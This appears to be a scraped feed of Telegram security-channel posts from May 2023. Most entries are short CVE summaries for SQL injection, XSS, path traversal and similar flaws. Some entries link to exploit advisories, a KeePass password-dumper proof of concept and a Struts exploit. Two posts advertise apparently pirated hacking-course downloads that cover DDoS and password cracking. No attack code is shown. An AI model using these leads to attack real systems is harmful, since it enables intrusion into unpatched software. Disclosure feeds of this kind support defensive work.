via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-05-24`

<blockquote>
Complete Ethical Hacking And Penetration Testing Course
Learn Ethical Hacking Using Kali Linux And Windows-Based Tools

◾️ Attack categories and vectors
◾️ Concepts of footprinting
◾️ Configuring networking in virtualization
◾️ DHCP snooping
◾️ DHCP starvation
◾️ Denial of service attack
◾️ Encryption concepts
◾️ Ethical Hacking terms and ethics
◾️ Hacking Web Servers
◾️ Honeypots
◾️ Install operating systems into 
◾️ Password cracking
◾️ Password reset
◾️ Phases of hacking
◾️ Rainbow crack
◾️ Remote Access method
◾️ SMTP enumeration
◾️ Search engine tools.
◾️ Session Hijacking
◾️ Sniffing (Man in the middle attack)
◾️ Social engineering
◾️ Spyware
◾️ Switching security concepts and attack
◾️ System Hacking concepts
◾️ virtualization (Windows, Linux)

📍Download Link :-
https://drive.google.com/uc?export&#61;download&amp;id&#61;1zoLBCYBiSt9J14MKZNqbZkMQIwyofMNg

🔐Key here : https://t.me/Starkgroups/443941

BY @Mr_Neophyte
Contact for posting these content in your channel 

Share with Your Friends.
</blockquote>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1424

<blockquote>
‼ CVE-2023-1424 ‼

Buffer Copy without Checking Size of Input ('Classic Buffer Overflow') vulnerability in Mitsubishi Electric Corporation MELSEC iQ-F Series CPU modules allows a remote unauthenticated attacker to cause a denial of service (DoS) condition or execute malicious code on a target product by sending specially crafted packets. A system reset of the product is required for recovery from a denial of service (DoS) condition and malicious code execution.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2859

<blockquote>
‼ CVE-2023-2859 ‼

Code Injection in GitHub repository nilsteampassnet/teampass prior to 3.0.9.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1508

<blockquote>
‼ CVE-2023-1508 ‼

Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') vulnerability in Adam Retail Automation Systems Mobilmen Terminal Software allows SQL Injection.This issue affects Mobilmen Terminal Software: before 3.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31860

<blockquote>
‼ CVE-2023-31860 ‼

Wuzhi CMS v3.1.2 has a storage type XSS vulnerability in the backend of the Five Finger CMS b2b system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31752

<blockquote>
‼ CVE-2023-31752 ‼

SourceCodester Employee and Visitor Gate Pass Logging System v1.0 is vulnerable to SQL Injection via /employee_gatepass/classes/Login.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-23`

<blockquote>
XML External Entity – Beyond /etc/passwd (For Fun &amp; Profit)
https://www.blackhillsinfosec.com/xml-external-entity-beyond-etcpasswd-fun-profit/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.blackhillsinfosec.com/xml-external-entity-beyond-etcpasswd-fun-profit/">
https://www.blackhillsinfosec.com/xml-external-entity-beyond-etcpasswd-fun-profit/
</a>
<blockquote>
Robert Schwass*//   Last week I was asked twice in one day if I knew what XML External Entity (XXE) Vulnerabilities were. Maybe they are making a comeback in mainstream security […]
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-23`

<blockquote>
Strutting your stuff – Unauthenticated Remote Code Execution
https://www.blackhillsinfosec.com/strutting-stuff-unauthenticated-remote-code-execution/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.blackhillsinfosec.com/strutting-stuff-unauthenticated-remote-code-execution/">
https://www.blackhillsinfosec.com/strutting-stuff-unauthenticated-remote-code-execution/
</a>
<blockquote>
Carrie Roberts // Unauthenticated Remote Code Execution? A hacker’s best friend. And that is what we have with CVE-2017-5638 Apache Struts with working exploit code here: https://github.com/rapid7/metasploit-framework/issues/8064 Save the exploit […]
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1209

<blockquote>
‼ CVE-2023-1209 ‼

Cross-Site Scripting (XSS) vulnerabilities exist in ServiceNow records allowing an authenticated attacker to inject arbitrary scripts.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33362

<blockquote>
‼ CVE-2023-33362 ‼

Piwigo 13.6.0 is vulnerable to SQL Injection via in the &quot;profile&quot; function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33599

<blockquote>
‼ CVE-2023-33599 ‼

EasyImages2.0 ? 2.8.1 is vulnerable to Cross Site Scripting (XSS) via viewlog.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33361

<blockquote>
‼ CVE-2023-33361 ‼

Piwigo 13.6.0 is vulnerable to SQL Injection via /admin/permalinks.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-33338

<blockquote>
‼ CVE-2023-33338 ‼

Old Age Home Management 1.0 is vulnerable to SQL Injection via the username parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-23`

<blockquote>
WBiz Desk 1.2 SQL Injection
https://packetstormsecurity.com/files/172506/wbizdesk12idtk-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172506/wbizdesk12idtk-sql.txt">
https://packetstormsecurity.com/files/172506/wbizdesk12idtk-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-23`

<blockquote>
Affiliate Me 5.0.1 SQL Injection
https://packetstormsecurity.com/files/172495/affiliateme501-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172495/affiliateme501-sql.txt">
https://packetstormsecurity.com/files/172495/affiliateme501-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25440

<blockquote>
‼ CVE-2023-25440 ‼

Stored Cross Site Scripting (XSS) vulnerability in the add contact function CiviCRM 5.59.alpha1, allows attackers to execute arbitrary code in first/second name field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28413

<blockquote>
‼ CVE-2023-28413 ‼

Directory traversal vulnerability in Snow Monkey Forms versions v5.0.6 and earlier allows a remote unauthenticated attacker to obtain sensitive information, alter the website, or cause a denial-of-service (DoS) condition.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27387

<blockquote>
‼ CVE-2023-27387 ‼

Cross-site request forgery (CSRF) in T&amp;D Corporation and ESPEC MIC CORP. data logger products allows a remote unauthenticated attacker to conduct an arbitrary operation by having a logged-in user view a malicious page. Affected products and versions are as follows: T&amp;D Corporation data logger products (TR-71W/72W all firmware versions, RTR-5W all firmware versions, WDR-7 all firmware versions, WDR-3 all firmware versions, and WS-2 all firmware versions), and ESPEC MIC CORP. data logger products (RT-12N/RS-12N all firmware versions, RT-22BN all firmware versions, and TEU-12N all firmware versions).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28408

<blockquote>
‼ CVE-2023-28408 ‼

Directory traversal vulnerability in MW WP Form versions v4.4.2 and earlier allows a remote unauthenticated attacker to alter the website or cause a denial-of-service (DoS) condition, and obtain sensitive information depending on settings.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27507

<blockquote>
‼ CVE-2023-27507 ‼

MicroEngine Mailform version 1.1.0 to 1.1.8 contains a path traversal vulnerability. If the product's file upload function and server save option are enabled, a remote attacker may save an arbitrary file on the server and execute it.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25953

<blockquote>
‼ CVE-2023-25953 ‼

Code injection vulnerability in Drive Explorer for macOS versions 3.5.4 and earlier allows an attacker who can login to the client where the affected product is installed to inject arbitrary code while processing the product execution. Since a full disk access privilege is required to execute LINE WORKS Drive Explorer, the attacker may be able to read and/or write to arbitrary files without the access privileges.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28409

<blockquote>
‼ CVE-2023-28409 ‼

Unrestricted upload of file with dangerous type exists in MW WP Form versions v4.4.2 and earlier, which may allow a remote unauthenticated attacker to upload an arbitrary file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31816

<blockquote>
‼ CVE-2023-31816 ‼

IT Sourcecode Content Management System Project In PHP and MySQL With Source Code 1.0.0 is vulnerable to Cross Site Scripting (XSS) via /ecodesource/search_list.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28467

<blockquote>
‼ CVE-2023-28467 ‼

In MyBB before 1.8.34, there is XSS in the User CP module via the user email field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31584

<blockquote>
‼ CVE-2023-31584 ‼

GitHub repository cu/silicon commit a9ef36 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the User Input field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27067

<blockquote>
‼ CVE-2023-27067 ‼

Directory Traversal vulnerability in Sitecore Experience Platform through 10.2 allows remote attackers to download arbitrary files via crafted command to download.aspx

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27066

<blockquote>
‼ CVE-2023-27066 ‼

Directory Traversal vulnerability in Site Core Experience Platform 10.2 and earlier allows authenticated remote attackers to download arbitrary files via Urlhandle.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2587

<blockquote>
‼ CVE-2023-2587 ‼

Teltonika’s Remote Management System versions prior to 4.10.0 contain a cross-site scripting (XSS) vulnerability in the main page of the web interface. An attacker with the MAC address and serial number of a connected device could send a maliciously crafted JSON file with an HTML object to trigger the vulnerability. This could allow the attacker to execute scripts in the account context and obtain remote code execution on managed devices.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-22`

<blockquote>
WBiz Desk 1.2 SQL Injection
https://packetstormsecurity.com/files/172475/wbizdesk12-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172475/wbizdesk12-sql.txt">
https://packetstormsecurity.com/files/172475/wbizdesk12-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-22`

<blockquote>
Esg 2.5 SQL Injection
https://packetstormsecurity.com/files/172473/esg25-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172473/esg25-sql.txt">
https://packetstormsecurity.com/files/172473/esg25-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-22`

<blockquote>
Code Bakers 1.0 SQL Injection
https://packetstormsecurity.com/files/172472/codebakers10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172472/codebakers10-sql.txt">
https://packetstormsecurity.com/files/172472/codebakers10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31779

<blockquote>
‼ CVE-2023-31779 ‼

Wekan v6.84 and earlier is vulnerable to Cross Site Scripting (XSS). An attacker with user privilege on kanban board can insert JavaScript code in in &quot;Reaction to comment&quot; feature.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31058

<blockquote>
‼ CVE-2023-31058 ‼

Deserialization of Untrusted Data Vulnerability in Apache Software Foundation Apache InLong.This issue affects Apache InLong: from 1.4.0 through 1.6.0. Attackers would bypass the'autoDeserialize' option filtering by adding blanks. Users are advised to upgrade to Apache InLong's 1.7.0 or cherry-pick [1] to solve it.[1] https://github.com/apache/inlong/pull/7674 https://github.com/apache/inlong/pull/7674

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2832

<blockquote>
‼ CVE-2023-2832 ‼

SQL Injection in GitHub repository unilogies/bumsys prior to 2.2.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1996

<blockquote>
‼ CVE-2023-1996 ‼

A reflected Cross-site Scripting (XSS) vulnerability in 3DEXPERIENCE R2018x through R2023x allows an attacker to execute arbitrary script code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2815

<blockquote>
‼ CVE-2023-2815 ‼

A vulnerability classified as critical was found in SourceCodester Online Jewelry Store 1.0. Affected by this vulnerability is an unknown functionality of the file supplier.php of the component POST Parameter Handler. The manipulation of the argument suppid leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-229429 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47984

<blockquote>
‼ CVE-2022-47984 ‼

IBM InfoSphere Information Server 11.7 is vulnerable to SQL injection. A remote attacker could send specially crafted SQL statements, which could allow the attacker to view, add, modify or delete information in the back-end database. IBM X-Force ID: 243163.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-19`

<blockquote>
Automattic: Stored XSS on  wordpress.com
https://vulners.com/hackerone/H1:1987172?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1987172?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1987172?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: Hi team I found Stored XSS in wordpress.com via  app.crowdsignal.com Platform(s) Affected: wordpress.com Steps To Reproduce: 1 . Go to https://app.crowdsignal.com/dashboard and create a poll 2 . Put the payload as answer  3.  Go to Share...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31862

<blockquote>
‼ CVE-2023-31862 ‼

jizhicms v2.4.6 is vulnerable to Cross Site Scripting (XSS). The content of the article published in the front end is only filtered in the front end, without being filtered in the background, which allows attackers to publish an article containing malicious JavaScript scripts by modifying the request package.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-05-19`

* https://t.me/leakers_Squad/1841

<blockquote>
☯️ WEBSITE HACKING COURSE FREE DOWNLOAD ☯️

┏◈ SQL INJECTION
┣◈ PENETRATION TESTING
┣◈ DOS, DDOS Attacks
┗◈ Security awareness

🔗Download : 
https://mega.nz/file/z4UzgQYZ&#35;7TjCd2-_YwZZjBx6Hm15VT_E99tF-8-LbWc_kpiOS2I

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

<table><tr><td><b>→</b><a href="https://mega.nz/file/z4UzgQYZ">
https://mega.nz/file/z4UzgQYZ
</a>
</td></tr></table>

---

# cibsecurity
`2023-05-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1618

<blockquote>
‼ CVE-2023-1618 ‼

Active Debug Code vulnerability in Mitsubishi Electric Corporation MELSEC WS Series WS0-GETH00200 all versions allows a remote unauthenticated attacker to bypass authentication and illegally log into the affected module by connecting to it via telnet which is hidden function and is enabled by default when shipped from the factory. As a result, a remote attacker with unauthorized login can reset the module, and if certain conditions are met, he/she can disclose or tamper with the module's configuration or rewrite the firmware.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2806

<blockquote>
‼ CVE-2023-2806 ‼

A vulnerability classified as problematic was found in Weaver e-cology up to 9.0. Affected by this vulnerability is the function RequestInfoByXml of the component API. The manipulation leads to xml external entity reference. The associated identifier of this vulnerability is VDB-229411. NOTE: The vendor was contacted early about this disclosure but did not respond in any way.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29720

<blockquote>
‼ CVE-2023-29720 ‼

SofaWiki &lt;&#61;3.8.9 is vulnerable to Cross Site Scripting (XSS) via index.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-18`

<blockquote>
Keepass 0day poc released on the public. Fullname: “Keepass-password-dumper” bot
https://www.reddit.com/r/Malware/comments/13la80v/keepass_0day_poc_released_on_the_public_fullname/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/Malware/comments/13la80v/keepass_0day_poc_released_on_the_public_fullname/">
https://www.reddit.com/r/Malware/comments/13la80v/keepass_0day_poc_released_on_the_public_fullname/
</a>
<blockquote>
Posted by u/-nomad-wanderer - No votes and no comments
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36328

<blockquote>
‼ CVE-2022-36328 ‼

Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability that could allow an attacker to create arbitrary shares on arbitrary directories and exfiltrate sensitive files, passwords, users and device configurations was discovered in Western Digital My Cloud Home, My Cloud Home Duo, SanDisk ibi and Western Digital My Cloud OS 5 devices. This can only be exploited once an attacker gains root privileges on the devices using an authentication bypass issue or another vulnerability.This issue affects My Cloud Home and My Cloud Home Duo: before 9.4.0-191; ibi: before 9.4.0-191; My Cloud OS 5: before 5.26.202.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36327

<blockquote>
‼ CVE-2022-36327 ‼

Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability that could allow an attacker to write files to locations with certain critical filesystem types leading to remote code execution was discovered in Western Digital My Cloud Home, My Cloud Home Duo, SanDisk ibi and Western Digital My Cloud OS 5 devices.This issue affects My Cloud Home and My Cloud Home Duo: before 9.4.0-191; ibi: before 9.4.0-191; My Cloud OS 5: before 5.26.202.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2799

<blockquote>
‼ CVE-2023-2799 ‼

A vulnerability, which was classified as problematic, has been found in cnoa OA up to 5.1.1.5. Affected by this issue is some unknown functionality of the file /index.php?app&#61;main&amp;func&#61;passport&amp;action&#61;login. The manipulation leads to use of hard-coded password. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-229376. NOTE: The vendor was contacted early about this disclosure but did not respond in any way.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-18`

<blockquote>
Reddit: [accounts.reddit.com] Redirect parameter allows for XSS
https://vulners.com/hackerone/H1:1962645?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1962645">
https://vulners.com/hackerone/H1:1962645
</a>
<blockquote>
Summary: Hello team! I was tampering with the dest parameter in accounts.reddit.com and found out it is vulnerable to Cross Site Scripting once the victim performs the log in. Steps To Reproduce:  Enter to the following link:...
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-32515

<blockquote>
‼ CVE-2023-32515 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Matt Gibbs Custom Field Suite plugin &lt;&#61; 2.6.2.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30780

<blockquote>
‼ CVE-2023-30780 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in TheGuideX User IP and Location plugin &lt;&#61; 2.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31233

<blockquote>
‼ CVE-2023-31233 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Haoqisir Baidu Tongji generator plugin &lt;&#61; 1.0.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47157

<blockquote>
‼ CVE-2022-47157 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Don Benjamin WP Custom Fields Search plugin &lt;&#61; 1.2.34 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23999

<blockquote>
‼ CVE-2023-23999 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in MonsterInsights plugin &lt;&#61; 8.14.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23667

<blockquote>
‼ CVE-2023-23667 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in BeRocket Brands for WooCommerce plugin &lt;&#61; 3.7.0.6 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-20173

<blockquote>
‼ CVE-2023-20173 ‼

Multiple vulnerabilities in the web-based management interface of Cisco Identity Services Engine (ISE) could allow an authenticated, remote attacker to read arbitrary files or conduct a server-side request forgery (SSRF) attack through an affected device. To exploit these vulnerabilities, an attacker must have valid Administrator credentials on the affected device. For more information about these vulnerabilities, see the Details section of this advisory.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30124

<blockquote>
‼ CVE-2023-30124 ‼

LavaLite v9.0.0 is vulnerable to Cross Site Scripting (XSS).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-20110

<blockquote>
‼ CVE-2023-20110 ‼

A vulnerability in the web-based management interface of Cisco Smart Software Manager On-Prem (SSM On-Prem) could allow an authenticated, remote attacker to conduct SQL injection attacks on an affected system. This vulnerability exists because the web-based management interface inadequately validates user input. An attacker could exploit this vulnerability by authenticating to the application as a low-privileged user and sending crafted SQL queries to an affected system. A successful exploit could allow the attacker to read sensitive data on the underlying database.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29985

<blockquote>
‼ CVE-2023-29985 ‼

Sourcecodester Student Study Center Desk Management System v1.0 admin\reports\index.php&#35;date_from has a SQL Injection vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-20174

<blockquote>
‼ CVE-2023-20174 ‼

Multiple vulnerabilities in the web-based management interface of Cisco Identity Services Engine (ISE) could allow an authenticated, remote attacker to read arbitrary files or conduct a server-side request forgery (SSRF) attack through an affected device. To exploit these vulnerabilities, an attacker must have valid Administrator credentials on the affected device. For more information about these vulnerabilities, see the Details section of this advisory.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27233

<blockquote>
‼ CVE-2023-27233 ‼

Piwigo v13.5.0 was discovered to contain a SQL injection vulnerability via the order[0][dir] parameter at user_list_backend.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30191

<blockquote>
‼ CVE-2023-30191 ‼

PrestaShop cdesigner &lt; 3.1.9 is vulnerable to SQL Injection via CdesignerTraitementModuleFrontController::initContent().

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2775

<blockquote>
‼ CVE-2023-2775 ‼

A vulnerability was found in code-projects Bus Dispatch and Information System 1.0. It has been classified as critical. This affects an unknown part of the file adminHome.php. The manipulation of the argument reach_city leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-229281 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2774

<blockquote>
‼ CVE-2023-2774 ‼

A vulnerability was found in code-projects Bus Dispatch and Information System 1.0 and classified as critical. Affected by this issue is some unknown functionality of the file view_branch.php. The manipulation of the argument branchid leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-229280.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2773

<blockquote>
‼ CVE-2023-2773 ‼

A vulnerability has been found in code-projects Bus Dispatch and Information System 1.0 and classified as critical. Affected by this vulnerability is an unknown functionality of the file view_admin.php. The manipulation of the argument adminid leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-229279.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2771

<blockquote>
‼ CVE-2023-2771 ‼

A vulnerability, which was classified as critical, has been found in SourceCodester Online Exam System 1.0. This issue affects some unknown processing of the file /jurusanmatkul/data. The manipulation of the argument columns[1][data] leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-229277 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2769

<blockquote>
‼ CVE-2023-2769 ‼

A vulnerability classified as critical has been found in SourceCodester Service Provider Management System 1.0. This affects an unknown part of the file /classes/Master.php?f&#61;delete_service. The manipulation of the argument id leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-229275.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

